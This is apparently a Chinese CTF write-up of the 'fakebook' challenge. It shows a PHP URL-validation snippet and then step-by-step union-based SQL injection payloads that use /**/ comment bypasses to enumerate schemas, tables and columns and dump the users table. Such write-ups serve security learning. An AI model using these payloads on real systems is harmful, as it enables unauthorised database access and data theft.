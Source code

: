 ```
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

发现这个有个get传参![image-20220707155455446](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071554550.png?x-oss-process=hzy)

加个引号就会报错![image-20220707155512719](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071555816.png?x-oss-process=hzy)

通过order by 判断列为4，大于4或小于均4报错，因此判断此列为4

![](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071601614.png?x-oss-process=hzy)

经过测试对字符进行了一定的过滤

```
-1 /**/union/**/select 1,group_concat(schema_name),3,4 from information_schema.schemata --+
```

通过注释符对其进行绕过![image-20220707160324120](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071604351.png?x-oss-process=hzy)获取到数据库：fakebook,information_schema,mysql,performance_schema,test

```
获取表 // 表名为users
-1 /**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="fakebook"--+
```

![image-20220707160500215](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071605311.png?x-oss-process=hzy)

```
获取字段
-1 /**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema="fakebook"--+
```

![image-20220707160546839](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071605948.png?x-oss-process=hzy)

```
获取字段信息
-1 /**/union/**/select 1,group_concat(data),3,4 from fakebook.users --+
```

![image-20220707160757019](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071607102.png?x-oss-process=hzy)

在这里可以看到我们提交的数据进行了序列化
